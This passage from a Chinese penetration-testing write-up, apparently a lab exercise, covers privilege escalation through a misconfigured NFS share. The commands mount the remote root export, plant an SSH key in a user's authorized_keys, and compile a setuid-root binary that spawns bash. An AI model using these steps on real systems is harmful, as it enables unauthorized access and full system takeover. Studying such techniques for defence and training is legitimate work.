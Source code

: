 ### 渗透 NFS 服务 ftp 提权

学习一篇提权文章：[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12)  
这里我们来到第一个拿到`shell`的主机，通过`fscan`可知`172.22.13.57`是存在`NFS`服务提权漏洞的  
我们来到根目录，新建一个目录进行`挂载`

```plain
#渗透 NFS 服务
sudo sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
sudo apt-get update
apt-get install nfs-common -y

# 查看共享
showmount -e 172.22.13.57
cd /
mkdir test
mount -t nfs 172.22.13.57:/ ./test -o nolock

## 挂载后，证书服务生成，将公钥传给 joyce@172.22.13.57
ssh-keygen -t rsa -b 4096
cd /test/home/joyce/
mkdir .ssh
cat /root/.ssh/id_rsa.pub >> /test/home/joyce/.ssh/authorized_keys
python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
```

上传`bash.c`，进行编译。利用`ftp`存在 suid 权限成功提权

[![](assets/1709193375-58de9f9377537159075dda201db6294c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205247-1b671ac4-d56f-1.png)

> 整理命令  
> 上传一个反弹 shell 的 c 文件`bash.c`

```plain
root@ubuntu:/temp/home/joyce# chmod -s bash.c
root@ubuntu:/temp/home/joyce# gcc bash.c -o exp
bash.c: In function ‘main’:
bash.c:6:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  system("bash");
      |  ^~~~~~
root@ubuntu:/temp/home/joyce# chmod +s exp
root@ubuntu:/temp/home/joyce# ls -al
total 52
drwx------ 3  996  994  4096 Feb 15 17:15 .
drwxr-xr-x 4 root root  4096 Aug 10  2022 ..
-rw-r--r-- 1 root root    76 Feb 15 17:15 bash.c
-rw------- 1  996  994   172 Feb 15 17:13 .bash_history
-rw-r--r-- 1  996  994    18 Nov 25  2021 .bash_logout
-rw-r--r-- 1  996  994   193 Nov 25  2021 .bash_profile
-rw-r--r-- 1  996  994   231 Nov 25  2021 .bashrc
-rwsr-sr-x 1 root root 16784 Feb 15 17:15 exp
drwxr-xr-x 2 root root  4096 Feb 15 17:08 .ssh
```